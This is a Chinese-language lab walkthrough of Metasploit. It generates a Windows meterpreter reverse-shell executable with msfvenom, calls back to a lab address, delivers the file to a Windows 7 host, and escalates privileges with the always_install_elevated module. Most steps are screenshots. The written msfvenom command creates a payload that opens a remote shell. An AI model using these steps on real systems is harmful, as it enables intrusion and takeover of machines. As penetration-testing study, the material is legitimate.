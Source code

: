 ### MSF 搜集 NDay

先使用 MSF 生成木马

```sh
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.41.156 LPORT=4444 -f exe > rt.exe
```

![](https://pic1.imgdb.cn/item/68d0b686c5157e1a882326fc.png)

加载一个通用的 **handler** 模块，用来接收来自各种反连（reverse）payload 的回连（session）

```sh
use exploit/multi/handler
```

![](https://pic1.imgdb.cn/item/68cb7faec5157e1a8814c887.png)

设置反连的 payload 类型

`set payload ...` 命令告诉当前已加载的 `exploit/multi/handler` 模块：**它要接收的**（也就是你将生成并在目标上运行的）payload 类型是 `windows/x64/meterpreter/reverse_tcp`

![](https://pic1.imgdb.cn/item/68cb802bc5157e1a8814cf65.png)

设置参数后运行

![](https://pic1.imgdb.cn/item/68cb80f4c5157e1a8814da05.png)

开启 HTTP 服务让 Windows 7 下载木马

![](https://pic1.imgdb.cn/item/68d0be7dc5157e1a88239986.png)

运行

![](https://pic1.imgdb.cn/item/68d0be67c5157e1a88239968.png)

成功！！！

![](https://pic1.imgdb.cn/item/68d0be9ec5157e1a882399bb.png)

输入 bg 放到后台

![](https://pic1.imgdb.cn/item/68d0beedc5157e1a88239a1c.png)

切换模块

```
use post/multi/recon/local_exploit_suggester
```

- `use`：在 `msfconsole` 中选择（载入）一个模块，用后会把该模块加载为当前上下文（类似切换到该模块以便设置选项并运行）
- `post/multi/recon/local_exploit_suggester`：模块路径，拆开：
  - `post`：模块类别（后渗透模块，post-exploitation）
  - `multi`：平台通用（multi-platform）/适用于多种系统的模块分类
  - `recon`：模块用途（侦察/信息收集）
  - `local_exploit_suggester`：模块名称 —— 本模块用于**在已控制的主机（session）上枚举信息并建议可能可利用的本地提权漏洞**

查看参数

![](https://pic1.imgdb.cn/item/68d0c29bc5157e1a8823b787.png)

设置后运行

![](https://pic1.imgdb.cn/item/68d0c30bc5157e1a8823be22.png)

扫描出漏洞

![](https://pic1.imgdb.cn/item/68d0c3c5c5157e1a8823c912.png)

选择对应的模块

```bash
use exploit/windows/local/always_install_elevated
```

![](https://pic1.imgdb.cn/item/68d0c572c5157e1a8823e42f.png)

查看设置参数

![](https://pic1.imgdb.cn/item/68d0c5b6c5157e1a8823e876.png)

直接运行

![](https://pic1.imgdb.cn/item/68d0c605c5157e1a8823ed5e.png)

查看会话发现提权成功

```
sessions
```

![](https://pic1.imgdb.cn/item/68d0c823c5157e1a88240409.png)

先放到后台，再切换到漏扫模块找 NDaya'y

![](https://pic1.imgdb.cn/item/68dc0244c5157e1a884b34c0.png)
